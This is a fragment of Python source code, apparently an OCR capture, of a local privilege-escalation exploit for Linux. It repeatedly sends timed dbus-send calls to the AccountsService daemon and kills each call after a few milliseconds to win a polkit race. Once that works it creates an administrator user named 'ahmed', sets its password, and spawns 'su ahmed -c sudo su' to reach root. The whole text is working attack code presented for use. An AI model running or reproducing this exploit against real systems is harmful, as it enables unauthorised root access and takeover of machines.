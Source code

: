 ```py
        counter = counter +1
        process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply','/org/freedesktop/Accounts','org.freedesktop.Accounts.CreateUser','string:ahmed','string:"Ahmad Almorabea','int32:1'])
        try:
                #print('1 - Running in process', process.pid)
                Random = random.uniform(0.006,0.009)
                process.wait(timeout=Random)
                process.kill()
        except subprocess.TimeoutExpired:
                #print('Timed out - killing', process.pid)
                process.kill()

        user = subprocess.run(['id', 'ahmed'], stdout=subprocess.PIPE).stdout.decode('utf-8')
        if user.find("uid") != -1:
                print("[+] User Created with the name of ahmed")
                print("[+] Timed out at: "+str(Random))
                check =False
                break
        if counter > 2000:
                print("[-] Couldn't add the user, try again it may work")
                sys.exit(0)


for i in range(200):
        #print(i)
        uid = "/org/freedesktop/Accounts/User"+str(pwd.getpwnam('ahmed').pw_uid)

        #In case you need to put a password un-comment the code below and put your password after string:yourpassword'
        password = "string:"
        #res = subprocess.run(['openssl', 'passwd','-5',password], stdout=subprocess.PIPE).stdout.decode('utf-8')
        #password = f"string:{res.rstrip()}"

        process = subprocess.Popen(['dbus-send','--system','--dest=org.freedesktop.Accounts','--type=method_call','--print-reply',uid,'org.freedesktop.Accounts.User.SetPassword',password,'string:GoldenEye'])
        try:
                #print('1 - Running in process', process.pid)
                Random = random.uniform(0.006,0.009)
                process.wait(timeout=Random)
                process.kill()
        except subprocess.TimeoutExpired:
                #print('Timed out - killing', process.pid)
                process.kill()

print("[+] Timed out at: " + str(Random))
print("[+] Exploit Completed, Your new user is 'Ahmed' just log into it like, 'su ahmed', and then 'sudo su' to root ")

p = subprocess.call("(su ahmed -c 'sudo su')", shell=True)

```
